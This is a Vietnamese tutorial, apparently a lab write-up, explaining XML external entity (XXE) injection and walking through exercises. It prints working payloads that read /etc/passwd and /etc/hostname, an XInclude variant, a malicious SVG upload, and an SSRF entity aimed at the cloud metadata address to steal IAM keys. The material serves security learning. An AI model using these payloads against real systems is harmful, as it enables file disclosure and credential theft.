

# XML external entity (XXE) injection

## XXE là gì?
XML external entity injection (còn được gọi là XXE) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng.  
Trong một số trường hợp, kẻ tấn công có thể leo thang cuộc tấn công XXE để xâm phạm máy chủ cơ sở hoặc cơ sở hạ tầng phụ trợ khác bằng cách tận dụng lỗ hổng XXE để thực hiện tấn công SSRF.
## XML entities
### XML là gì?
XML là ngôn ngữ đánh dấu, được thiết kế để lưu trữ và chuyển dữ liệu. XML không giống HTML ở chỗ có thể tạo ra các tag mới không có sẵn để mô tả các dữ liệu cụ thể mà người dùng mong muốn.
### XML entities là gì?
XML entities là entities là những đoạn ký hiệu đại diện cho một giá trị nào đó trong file XML. Ví dụ, `&lt;`và `&gt;` biểu diễn các ký tự `<` và `>`. 
### DTD là gì?
XML document type definition (DTD) chứa các khai báo có thể định nghĩa cấu trúc của một tài liệu XML, các kiểu giá trị dữ liệu mà nó có thể chứa và các mục khác. 
### XML custom entities là gì?
XML entities chia ra làm 2 loại, 1 loại có sẵn được định nghĩa sẵn như các ví dụ về `&lt;`và `&gt;` ở trên. 1 loại nữa là loại do người dùng tự định nghĩa. Có 2 cách để định nghĩa XML entities này, đó là ở trong (định nghĩa trong DTD) và định nghĩa ở ngoài.  
Ví dụ về 1 XML Entities được định nghĩa trong DTD:
```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```
Với định nghĩa này, trong file XML sẽ sử dụng tham chiếu `&myentity;` thay cho `my entity value`.
### XML entities External là gì?
XML entities External như đã nói ở trên, là loại được định nghĩa ngoài DTD.   
Ví dụ, khai báo entity `SYSTEM` được tải từ 1 URL nằm ngoài DTD:
```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```
hoặc tải từ file có sẵn
```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```
Các XML external entities là thứ phát sinh ra các lỗ hổng XXE.
## Tấn công XXE để truy xuất các tệp
Giả sử có 1 request tới máy chủ có chứa đoạn XML như sau: 
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
Ý tưởng là kẻ tấn công inject thêm 1 đoạn XML nữa để định nghĩa 1 XML external entity, sau đó gọi tham chiếu của entity này. Cụ thể
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
Khi gọi tham chiếu, nội dung của file này hiện ra.

### Bài lab: Exploiting XXE using external entities to retrieve files
Mục tiêu bài lab: Trong bài chứa lỗ hổng XXE có thể khai thác được ở chức năng check stock (có đầu vào XML). Hoàn thành bài lab bằng cách khai thác XXE để hiện ra file /etc/passwd.
Request có đầu vào XML có chứa lỗ hổng

Khai thác để lấy file /etc/passwd


## Khai thác XXE để tấn công SSRF
Để khai thác trong trường hợp này, ta sẽ sử dụng tạo XML external entity với nguồn vào từ 1 URL. Khi thành công, external entity sẽ tạo 1 request HTTP tới hệ thống trong với XML external entity là:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
### Bài lab: Exploiting XXE to perform SSRF attacks
Mục tiêu bài lab: Trong bài chứa lỗ hổng XXE có thể khai thác được ở chức năng check stock (có đầu vào XML). Hoàn thành bài lab bằng cách khai thác XXE để tấn công SSRF nhằm lấy được khóa truy cập bí mật IAM của máy chủ EC2 (IP máy chủ http://169.254.169.254/).

## Khai thác XXE với XInlude
Một số ứng dụng nhận dữ liệu do máy khách gửi, nhúng dữ liệu đó vào phía máy chủ trong một tài liệu XML, sau đó phân tích cú pháp. Ở trường hợp này, không thể khai thác XXE theo hướng tạo XML entity external như ở trên vì không sửa được `DOCTYPE`. Thay vào đó, có thể sử dụng `XInclude`. `XInclude` để xây dựng 1 tài liệu phụ bổ sung. Payload lúc này là:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### Bài lab: Exploiting XInclude to retrieve files
Mục tiêu bài lab: Trong bài chứa lỗ hổng XXE có thể khai thác được ở chức năng check stock (đưa đầu vào vào XML doc và phân tích cú pháp). Cần chèn một `XInclude`để lấy nội dung của tệp `/etc/passwd`.


## Khai thác XXE với upload file (via upload file)
Một số định dạng tệp phổ biến sử dụng XML hoặc chứa các thành phần phụ XML. Ví dụ về các định dạng dựa trên XML là DOCX, SVG.
### Bài lab: Exploiting XXE via image file upload
Mục tiêu bài lab: Trong bài lab này, cho phép người dùng đính kèm ảnh đại diện vào bình luận và sử dụng thư viện Apache Batik để xử lý các tệp ảnh đại diện. Cần tải lên hình ảnh hiển thị nội dung của /etc/hostname sau khi xử lý để tìm flag.

Tạo file SVG có nội dung: 
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
File svg thấy được


